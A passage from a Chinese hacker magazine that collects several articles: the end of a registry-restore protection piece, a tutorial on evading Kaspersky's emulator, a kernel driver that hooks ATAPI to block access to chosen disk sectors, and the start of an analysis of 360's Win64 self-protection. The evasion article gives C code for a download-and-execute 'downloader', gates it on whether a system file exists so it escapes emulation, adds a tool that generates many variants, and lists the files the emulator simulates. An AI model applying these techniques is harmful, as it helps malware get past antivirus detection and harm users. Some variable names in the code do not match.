

图 4

此时你会发现注册表里多了一项，如图 5 所示。



图 5

这样你对 HKEY_LOCAL_MACHINE\\SYSTEM 的操作都无效，重启后自动恢复成原来的状态。

写到这里，应该结束了，但是我在这里对该工具提几点不足：Hive 文件虽然可以恢复，但前后加载的却有所区别，这是因为系统会对注册表进行数据修改。因此为何不直接用 ZwSaveKey 将要保护的注册表项转存为 Hive 文件，然后再调用 ZwRestoreKey 函数将前面的 Hive 文件恢复在 HKEY_USERS\\DEFAULT\\Volatile 下面，这样既方便，又使前后的注册表内容保持一致。还有对 CmpParseKey 这个函数的 Hook 要不停地监测，防止被一些工具还原，从而失去还原保护的作用。我的代码里有监控 CmpParseKey 函数 Hook 是否被还原的线程，有需要的读者可自行添加开启。只不过现在也没有绝对安全的还原工具，毕竟有防有攻，像机器狗、鬼影等这些新型木马就带有穿透还原的功能，以后我再给喜欢此道的黑防朋友们介绍。不管怎样，在逆向该工具和编程的过程中我收获颇丰，在这里真心感谢该工具的开发作者，也谢谢 sucami 大牛，更希望黑防读者在这篇文章中能找到自己喜欢的东西，谢谢大家！

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC

关键词：卡巴、虚拟机、文件


## 自动检测卡巴虚拟机虚拟系统文件列表

文/masepu

《黑客防线》2010年第11期“工具与免杀”里《卡巴斯基虚拟机启发式扫描技术突破》一文中提到了 6 种绕过卡巴斯基的虚拟机扫描技术的方法，本质上就是找到虚拟机和真实环境间的各种区别，构造出一种卡巴虚拟机无法虚拟的环境来突破该查杀机制。这些方法都是利用卡巴虚拟机与真实系统间的各种差异来实现的。可以看出卡巴斯基虚拟机与真机的差别还是很大的，有很多方面还没有完全模拟到位。近日在测试代码时发现卡巴基对操作系统文件也没有全部模拟，程序员可以通过检测某些系统文件是否存在的方式来绕过虚拟机查杀。以下是一段常见的下载者代码，运行成功后会弹出一个记事本。

```c
TCHAR szFileName[MAX_PATH] = {0};
URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe", ... ,szFileName,MAX_PATH,0,NULL);
ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
```

该段代码实现了最简单的下载执行操作，如果编译生成就会被卡巴斯基所杀。因为程序中函数的调用顺序为先通过 URLDownloadToCacheFile 函数下载一个文件，然后再通过 ShellExecute 函数执行该文件，卡巴斯基一旦发现这两个敏感操作并按此顺序执行时就会报警，任何变换一律无效。这就是杀毒软件基于虚拟机技术的行为查杀的好处，只要在虚拟执行过程中发现预定义的危险行为和操作即报警，有效增强了对未知病毒的查杀能力。如何逃避卡巴斯基的查杀呢？下面我们采用一种简单方法判断操作系统文件是否存在，从而轻松突破卡巴虚拟机的杀毒机制。具体代码如下。

```c
FILE* stream = NULL;
TCHAR szFileName[MAX_PATH] = "C:\\WINDOWS\\system32\\write.exe";
if (strlen(szFileName) != 0) {
    stream = fopen(szFileName, "r");
}
if (stream) {
    TCHAR szFileName[MAX_PATH] = {0};
    URLDownloadToCacheFile(NULL,"file://c:\\windows\\notepad.exe", ...);
    ShellExecute(0,"open",szFileName,NULL,NULL,SW_SHOW);
}
```

检测并运行以上代码编译生成的可执行文件，可顺利通过卡巴斯基的查杀，并且记事本程序能够顺利弹出。原因是在被杀代码前加入了判断语句，该语句首先判断系统目录下是否存在 write.exe 文件，如果存在则继续执行下载者代码，否则就直接退出程序。其原理就是利用判断特定系统文件是否存在的方式来检测程序当前的运行环境，如果是运行在卡巴虚拟机中，则不做任何危险操作直接退出；如果判断的是运行在真实的 Windows 操作系统中，程序才会继续执行。这样程序在卡巴虚拟机中就根本执行不到下载者的代码，因此能够顺利突破。

按照以上思路，我们通过判断系统文件夹中的特定文件就可以轻松判断程序是否运行在卡巴虚拟机中，比如 write.exe 文件就是一个卡巴虚拟机没有虚拟而真实系统中却会存在的文件。那如何知道其他类似文件还有哪些？卡巴斯基的虚拟机中都虚拟了哪些系统文件？如果通过手工来一个个试，则是一件非常繁重的任务。为了快速找到卡巴虚拟机文件系统里虚拟了哪些文件，进一步了解卡巴的虚拟机机制，我采用自动程序检测的方式来检测。具体方法是首先按照前面提到的方法生成一个卡巴斯基的下载者，然后遍历系统目录下的文件名，通过程序动态替换下载者中所要判断的文件名，比如自动将 write.exe 替换成 cmd.exe、arp.exe 等文件名，最后将修改过的下载者放到卡巴下查杀，被杀的即为卡巴虚拟机中模拟了的文件，没被杀的则相反。以下是编程测试方法步骤。

- 按照文章前面给出的代码生成一个下载者可执行文件，作为自动更改指定文件名称的模板文件。
- 定位文件名称在可执行文件中的具体位置。具体方法是用 UE 等工具打开文件，搜索文件名 write.exe 所在的位置，然后写到程序变量中。
- 遍历系统目录，获得系统目录中的指定类型文件名，然后将其替换到 write.exe 原先所在的位置，并将所生成的文件复制到指定目录下以备查杀测试。程序代码如下。

```c
LONG lDistanceToMove = 40364; // 通过UE确定修改的位置
CHAR SysFileName[80] = "";
CHAR LogFileName[80] = "";
HANDLE hFile;
DWORD dwResult;
BOOL IsSuccessed;
// 文件遍历 ...
```

```c
WIN32_FIND_DATA FindFileData;
HANDLE hFind1 = INVALID_HANDLE_VALUE;
char CurDir[MAX_PATH] = "c:\\windows\\system32\\";
strncat(CurDir,"*.exe");
hFind1 = FindFirstFile(CurDir,&FindFileData);
if (hFind1 != INVALID_HANDLE_VALUE)
{
    while(FindNextFile(hFind1,&FindFileData)!=0)
    {
        MessageBox(NULL,FindFileData.cFileName,"DIR",MB_OK);
        strcpy(SysFileName,FindFileData.cFileName);
        strcpy(LongFileName,"c:\\test\\");
        strcat(LongFileName,SysFileName);
        CopyFile("c:\\test.exe",LongFileName,true);
        hFile = CreateFile(LongFileName, ...);
        SetFilePointer(hFile, iDistanceToMove, NULL, FILE_BEGIN);
        bSuccessed = WriteFile(hFile,SysFileName,80,&dwResult,NULL);
    }
}
```

运行未被查杀的文件，都能够成功下载执行，弹出记事本程序。运行效果如图 2 所示。



图 2

在程序代码中，系统文件遍历时我设定的是只获取 exe 文件名，大家可以改成任意文件类型。将生成的下载者模板文件复制到 c:\\test.exe，然后建立 c:\\test 目录，运行该程序，就会在 c:\\test 目录下生成大量以系统目录下 exe 文件名命名的程序。我是在干净的 Windows XP SP2 下运行的，共生成了 313 个文件，然后将这些文件用卡巴斯基 2010 互联网安全套装在 Windows XP 下检测，共被查杀 31 个威胁，如图 1 所示。



图 1

因此我们基本可以断定，卡巴虚拟机只虚拟了 system32 下的这 31 个 exe 文件。我在 Windows 7 下利用卡巴斯基安全部队检测的结果是一样的。但是由于 Windows 7 中的系统文件与 Windows XP 中的有较大差别，因此部分下载者程序不能成功运行，但是大部分像检测 arp.exe、attrib.exe、ping.exe 等文件的下载者程序都能够成功运行。以下是通过此种方法检测出的卡巴虚拟机虚拟的 Windows XP 系统中 system32 目录下的 exe 文件名列表：ahui.exe、alg.exe、at.exe、calc.exe、charmap.exe、cmd.exe、control.exe、ctfmon.exe、lsass.exe、mspaint.exe、net.exe、net1.exe、notepad.exe、ntoskrnl.exe、ntsd.exe、reg.exe、regsvr32.exe、reset.exe、rundll32.exe、services.exe、sfc.exe、shadow.exe、shutdown.exe、spoolsv.exe、svchost.exe、sysedit.exe、syskey.exe、systray.exe、taskkill.exe、tasklist.exe、userinit.exe。

同理，我们可以用此种方法来检测卡巴虚拟了哪些其他文件，如 dll 等文件类型。有兴趣的朋友可以自己进一步检测。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动

关键字：ATAPI、扇区、驱动

## ATAPI层禁止特定扇区的读写


文/刘为业（华东交通大学软件学院）

文件的保护有很多种方法，从 Ring3 到 Ring0，从占坑到文件系统驱动的 Hook 等。而本文向大家介绍一种比文件系统更底层的方法，也就是 port 级的文件保护。

抛开了文件系统层次美观的文件名和文件对象，当 IRP 传递到 atapi.sys 驱动后，有的只是磁盘的物理偏移和 SCSI 指令。下面让我们开始对 ATAPI 的探索。

首先，让我们来了解一下写文件操作在内核中大致的流程。当你在用户层修改一个文件并保存的时候，内核中生成了一个 IRP 并开始处理它。在经过一系列无关重点的操作后，IRP 最终会传到 Ntfs 驱动的 NtfsCommonWrite 中，之后 IRP 依次传递给 VolSnap!VolSnapWrite->Ftdisk!FtDiskReadWrite->CLASSPNP!ClassReadWrite->CLASSPNP!ServiceTransferRequest->CLASSPNP!SubmitTransferPacket，最后 SubmitTransferPacket() 会生成一个新的 IRP，并传递给我们今天的主角 ATAPI。IdePortDispatch() 函数是 ATAPI 的 IRP_MJ_SCSI 处理例程，在 IdePortDispatch() 之下是 HAL 层，再下面就是端口的 IO 操作了。

看到这里，大多数的读者应该都能想到 Hook IdePortDispatch 就可以禁止特定扇区的读写。但是在这之前，我们更有必要看清 SubmitTransferPacket() 和 ServiceTransferRequest() 这两个函数，因为我们需要知道 SubmitTransferPacket() 新生成的 IRP 有什么特别之处，因为这个 IRP 将传递给 ATAPI，并且决定此后的操作。

先来看看 SubmitTransferPacket() 中的代码。函数里有如下代码。

```c
nextSp = IoGetNextIrpStackLocation(Pkt->Irp);
nextSp->MajorFunction = IRP_MJ_SCSI;
nextSp->Parameters.Scsi.Srb = &Pkt->Srb;
Pkt->Srb.ScsiStatus = Pkt->Srb.SrbStatus = 0;
Pkt->Srb.SenseInfoBufferLength = sizeof(SENSE_DATA);
...
return IoCallDriverStackSafeDefault(nextDevObj, Pkt->Irp);
```

经过笔者的调试，确定了 nextDevObj 是 atapi.sys 生成的名为“DR0”的设备对象。而 Pkt->Irp 中的 Pkt 是一个结构，笔者在这里不准备讲 Pkt，它只是 classpnp 驱动里的一个结构，我们只要知道 Pkt->Irp 是一个 classpnp 生成的新 IRP 就行了。通过源码可以发现，主要的参数包含在 nextSp->Parameters.Scsi.Srb 里。

继续看上层函数 ServiceTransferRequest() 的代码。笔者在这个函数里发现了一处调用。

```c
SetupReadWriteTransferPacket(pkt, bufPtr, thisPieceLen,
    targetLocation, Irp);
pktStat = SubmitTransferPacket(pkt);
```

让我们进入 SetupReadWriteTransferPacket 中看看。笔者在这个函数中发现以下对 Pkt->Srb 操作的代码。

```c
Pkt->Srb.DataBuffer = Buf;
Pkt->Srb.DataTransferLength = Len;
Pkt->Srb.QueueSortKey = logicalBlockAddr.LowPart;
Pkt->Srb.OriginalRequest = Pkt->Irp;
Pkt->Srb.SenseInfoBuffer = &Pkt->SrbErrorSenseData;
Pkt->Srb.TimeOutValue = fdoExt->TimeOutValue;
pCdb = (PCDB)Pkt->Srb.Cdb;
if (TEST_FLAG(fdoExt->DeviceFlags, DEV_USE_16BYTE_CDB)) {
    REVERSE_BYTES_QUAD(&pCdb->CDB16.LogicalBlock, &logicalBlockAddr);
    REVERSE_BYTES(&pCdb->CDB16.TransferLength, &numTransferBlocks);
    pCdb->CDB16.OperationCode = (majorFunc == IRP_MJ_READ) ? SCSIOP_READ16 : SCSIOP_WRITE16;
    Pkt->Srb.CdbLength = 16;
} else {
    pCdb->CDB10.LogicalBlockByte0 = ((PFOUR_BYTE)&logicalBlockAddr.LowPart)->Byte3;
    pCdb->CDB10.LogicalBlockByte1 = ((PFOUR_BYTE)&logicalBlockAddr.LowPart)->Byte2;
    ...
}
```

```c
pCdb->CDB10.LogicalBlockByte2 = ((PFOUR_BYTE)&logicalBlockAddr.LowPart)->Byte1;
pCdb->CDB10.LogicalBlockByte3 = ((PFOUR_BYTE)&logicalBlockAddr.LowPart)->Byte0;
pCdb->CDB10.TransferBlocksMsb = ((PFOUR_BYTE)&numTransferBlocks)->Byte1;
pCdb->CDB10.TransferBlocksLsb = ((PFOUR_BYTE)&numTransferBlocks)->Byte0;
pCdb->CDB10.OperationCode = (majorFunc == IRP_MJ_READ) ? SCSIOP_READ : SCSIOP_WRITE;
```

到这里，看到如此多的 CDB 和 SRB，想必不少读者已经晕了。那么是时候对这些结构做些说明了。atapi.sys 接收的是 SCSI 命令，这个开篇就提到了，而 SubmitTransferPacket 把包含了 SRB 参数的 IRP 传递给了 ATAPI，于是可以得知 SRB 结构中包含了 SCSI 命令，这里给出 SRB 的结构。

```c
typedef struct _SCSI_REQUEST_BLOCK {
    UCHAR Function;      // SRB 的功能码
    UCHAR SrbStatus;     // 返回的状态
    UCHAR ScsiStatus;    // 返回的状态
    ...
    UCHAR CdbLength;     // Cdb 详细讲述
    ULONG SrbFlags;      // SRB_FLAGS_DATA_OUT / SRB_FLAGS_DATA_IN
    ...
    PVOID OriginalRequest; // 原始的 IRP
    union {
        ULONG InternalStatus;
        ULONG QueueSortKey; // 这个也很重要
    };
    UCHAR Cdb[16];       // 这就是 SCSI 的命令了
} SCSI_REQUEST_BLOCK, *PSCSI_REQUEST_BLOCK;
```

这里省略了一些与本文无关的成员。读者可以在 MSDN 中查到更为详细的结构。下面详细讲解两个成员：CdbLength 这个成员直接决定了 Cdb[16] 的具体结构，在本文中这个成员的值是 10，在上文代码中也可以看到对这个成员的操作；QueueSortKey 是磁盘的逻辑扇区号，Hook 函数中就是用这个值进行判断的。如下代码可以得到 srb 结构。

```c
nextSp = IoGetNextIrpStackLocation(Pkt->Irp);
srb = nextSp->Parameters.Scsi.Srb;
```

下面是 CDB 的结构，这个就是 SCSI 指令的内容，具体结构取决于 CdbLength 的值。由于这个结构过大，这里只给出与本文相关的结构，即上文代码中的 pCdb->CDB10 结构。

```c
struct _CDB10 {
    UCHAR OperationCode;     // SCSI 指令的操作码，0x28 是 SCSIOP_READ，0x2A 是 SCSIOP_WRITE
    UCHAR RelativeAddress : 1;
    UCHAR Reserved1 : 2;
    UCHAR ForceUnitAccess : 1;
    UCHAR DisablePageOut : 1;
    UCHAR LogicalUnitNumber : 3;
    UCHAR LogicalBlockByte0; // QueueSortKey 的 byte1
    UCHAR LogicalBlockByte1; // QueueSortKey 的 byte2
    UCHAR LogicalBlockByte2; // QueueSortKey 的 byte3
    UCHAR LogicalBlockByte3; // QueueSortKey 的 byte4
    UCHAR Reserved2;
    UCHAR TransferBlocksMsb; // 要读(写)的扇区个数高位
    UCHAR TransferBlocksLsb; // 要读(写)的扇区个数低位
    UCHAR Control;
} CDB10;
```

其中最重要的是 `OperationCode` 和 `LogicalBlockByteX` 成员。`LogicalBlockByteX` 成员是 `SRB.QueueSortKey` 从低到高的 4 个 byte 的内容。

讲了这么多知识，这里总结一下 classpnp 进行的一些主要操作，方便接下来的内容。当一个 IRP 传递给 classpnp 时，classpnp 生成一个新的 IRP 并运行代码：

```cpp
nextSp = IoGetNextIrpStackLocation(Pkt->Irp)
```

然后对 `nextSp.Srb.Cdb`、`nextSp.Srb.CdbLength` 以及 `nextSp.Srb.QueueSortKey` 等成员进行赋值，最后将 IRP 通过 `IoCallDriverStackSafeDefault` 传递给 `atapi.sys`。

有了这些知识，接下来就是编写代理 `IdePortDispatch` 函数了。代理函数可以通过对比 `QueueSortKey` 与想要保护的扇区来选择阻止还是放行，当然读者也可以尝试比对 `Cdb.LogicalBlockByteX` 成员，或者再加上 `OperationCode` 的比对来阻止特定的操作。

那么又有一个问题了，假设我们想要保护文件，那么如何得到文件所在的扇区呢？有一个方法是在 Ring3 下通过 `DeviceIoControl` 发送 `FSCTL_GET_RETRIEVAL_POINTERS`，就可以得到文件的簇号了。然后再根据给出的算式，可以得到相应的扇区号，算式如下：

- fat32：某文件或目录首逻辑扇区号 = data 起始扇区号 + (该文件或目录起始簇号 - 2) × 每簇扇区数
- ntfs：逻辑扇区号 = 簇号 × 每簇扇区数

算式中涉及了一些磁盘格式的内容，如每簇扇区数和 data 起始扇区号，这不是本文重点，请读者自行搜索解决。下面给出笔者得到文件起始扇区的核心代码。

```cpp
hFile=CreateFile(_T("C:\\FsControl.exe"),GENERIC_READ,FILE_SHARE_READ|FILE_SHARE_WRITE,0,OPEN_EXISTING,FILE_FLAG_NO_BUFFERING,0);
STARTING_VCN_INPUT_BUFFER inBuf;
RETRIEVAL_POINTERS_BUFFER OutBuf;
DWORD dwBytesRet;
inBuf.StartingVcn.QuadPart = 0;
ZeroMemory(&OutBuf,sizeof(OutBuf));
DeviceIoControl(hFile,FSCTL_GET_RETRIEVAL_POINTERS,&inBuf,sizeof(inBuf),&OutBuf,sizeof(OutBuf),&dwBytesRet,NULL);
```

结果如图 1 所示。



图 1

笔者的文件驱动为 NTFS，每簇扇区数为 8，所以算出扇区为 1564272。代理函数写完后挂钩 ATAPI 的 `IRP_MJ_SCSI` 例程就行了。关于 Dispatch hook 之类的知识这里不再多说。代理函数代码如下。

```cpp
NTSTATUS
fake_handle(
  PDEVICE_OBJECT DeviceObject,
  PIRP Irp)
{
  PIO_STACK_LOCATION irp_stack;
  PFILE_OBJECT file_obj;
  ULONG max,min;
  ...
}
```

```cpp
irp_stack = IoGetCurrentIrpStackLocation(Irp);
max = 1564272 + 57;
min = 1564272;
if (irp_stack->Parameters.Scsi.Srb->QueueSortKey <= max &&
    irp_stack->Parameters.Scsi.Srb->QueueSortKey >= min) {
    KdPrint(("atapi@fake_handle OperationCode is %02x, QueueSortKey is %d\n",
      irp_stack->Parameters.Scsi.Srb->Cdb[0],
      irp_stack->Parameters.Scsi.Srb->QueueSortKey));
    Irp->IoStatus.Status = STATUS_UNSUCCESSFUL;
    Irp->IoStatus.Information = 0;
    IoCompleteRequest(Irp, IO_NO_INCREMENT);
    KdBreakPoint();
    return STATUS_UNSUCCESSFUL;
}
return STATUS_SUCCESS;

NTSTATUS
fake_scsi_dispatch(
  IN PDEVICE_OBJECT DeviceObject,
  IN PIRP Irp)
{
  NTSTATUS status;
  status = fake_handle(DeviceObject, Irp);
  if (!NT_SUCCESS(status)) return status;
  __asm {
    push eax
    push Irp
    push DeviceObject
    call g_orig_scsi_dispatch
    mov status,eax
    pop eax
  }
  return status;
}
```

给出的代码可以阻止对文件 `FsControl.exe` 的任何操作。用 WinHex 对 `FsControl` 进行读取时，会有如图 2 所示的结果，代理函数成功中断。



图 2

笔者在阅读 classpnp 源码时发现，有的情况下 `ClassReadWrite` 也会直接调用 `atapi.sys` 的 `StartIo` 例程来处理，而不是 `ServiceTransferRequest()`，所以在代码中笔者也 Hook 了 ATAPI 的 `StartIo` 例程，详细内容请见网站源码。还有，为什么笔者用 WinHex 进行实验？因为在文件进行一次读取后，Windows 的 Cache 管理器会把文件保存在内存中一个叫做 VACB 的数组里。所以可能只会捕捉到一次中断，更具体的原因请读者自行搜索。

本文 Ring3 代码在 VC6 中编译，驱动在 Windows XP SP3 + WDK 中编译，所有程序在 Windows XP SP3 中成功运行。Classpnp 源码包含在 WDK 中，读者可自行查阅。存储设备十分复杂，加之行文仓促，纰漏难免，欢迎各位的批评指正。

（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VC  
关键词：360、进程保护、Win64


## 分析 360 在 Win64 上的进程自保护开发述

文/图 胡文亮

自从改行玩硬件后，就很少关注病毒和反病毒之间的斗争了。某天在中文讨论论坛听到一名网友说 360 在 Win64 上有了进程自我保护，十分厉害，连微软的 Process Explorer 都不能结束呢！我听后心里十分好奇，于是重操旧业，下载了最新版的 360 安全卫士 7.7（2011 年 5 月 6 日），安装在 64 位 Windows 7 虚拟机上来测试。

首先拿“任务管理器”来测试，果然再次出现了熟悉的“拒绝访问”提示，如图 1 所示。



图 2

